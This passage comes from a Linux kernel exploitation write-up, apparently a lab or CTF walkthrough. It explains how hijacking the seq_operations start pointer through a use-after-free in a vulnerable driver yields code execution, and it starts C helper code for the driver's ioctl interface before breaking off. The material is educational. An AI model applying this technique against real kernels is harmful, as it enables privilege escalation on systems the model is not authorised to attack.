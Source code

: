 Once the file is opened, calling `read()` on the file descriptor will eventually invoke [`seq_read()`](https://elixir.bootlin.com/linux/v6.6.16/source/fs/seq_file.c#L151):


```c
ssize_t seq_read(struct file *file, char __user *buf, size_t size, loff_t *ppos)
{
	struct iovec iov = { .iov_base = buf, .iov_len = size};
	struct kiocb kiocb;
	struct iov_iter iter;
	ssize_t ret;

	init_sync_kiocb(&kiocb, file);
	iov_iter_init(&iter, ITER_DEST, &iov, 1, size);

	kiocb.ki_pos = *ppos;
	ret = seq_read_iter(&kiocb, &iter);
	*ppos = kiocb.ki_pos;
	return ret;
}
```

This function will call `seq_read_iter`. Inside `seq_read_iter`, the following [line](https://elixir.bootlin.com/linux/v6.6.16/source/fs/seq_file.c#L225) is called:

```c
p = m->op->start(m, &m->index);
```

This means that if you can overwrite the `start` function pointer in the `seq_operations` structure, you gain code execution when `read()` is called on that file descriptor.

#### UAF

To trigger the Use-After-Free (UAF) on the target object, we first allocate a chunk of memory using the vulnerable driver with the same size as the object we want to target. Then, we free it and immediately allocate the target object (`seq_operations`) so that it occupies the same memory region.

I created a few helper functions to interact with the driver's `ioctl` interface:

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define ALLOC 0x4008b900
#define FREE 0xb901
#define USE_READ 0x8001b902
#define USE_WRITE 0x4001b902

int driver_fd;

int open_dev(char *path) {
  printf("Opening device\n");
  int fd = open(path, O_RDWR);

  if (fd == -1) {
    printf("Failed to open device\n");
    return 2;
  } else {
    printf("Opened device\n");
  }

  return fd;
```